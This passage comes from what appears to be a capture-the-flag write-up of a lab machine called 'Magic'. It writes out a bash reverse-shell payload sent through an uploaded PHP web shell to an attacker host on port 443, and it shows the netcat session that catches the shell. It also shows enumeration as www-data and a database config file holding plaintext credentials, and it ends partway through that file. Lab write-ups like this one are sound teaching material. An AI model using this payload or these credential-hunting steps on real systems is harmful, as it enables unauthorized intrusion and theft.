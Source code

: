 To get a shell from here, I just need to pass in a reverse shell. Visiting `http://10.10.10.185/images/uploads/avatar.php.png?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.20/443 0>%261'` works:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.185.
Ncat: Connection from 10.10.10.185:53650.
bash: cannot set terminal process group (1140): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/Magic/images/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

## Priv: www-data –> theseus

### Enumeration

Looking at the home directories, there’s one user, theseus, and as www-data I can see `user.txt` but not read it:

```

www-data@ubuntu:/home$ ls
theseus
www-data@ubuntu:/home/theseus$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos  testing  user.txt

```

Enumerating as www-data didn’t turn out anything obvious, so I went into the web configurations to see what I could find. The site is hosted out of `/var/www/Magic`:

```

www-data@ubuntu:/var/www/Magic$ ls
assets  db.php5  images  index.php  login.php  logout.php  upload.php

```

`db.php5` does have creds for the database:

```

<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }

    public static function connect()
    {
        // One connection through whole application
        if ( null == self::$cont )
        {
```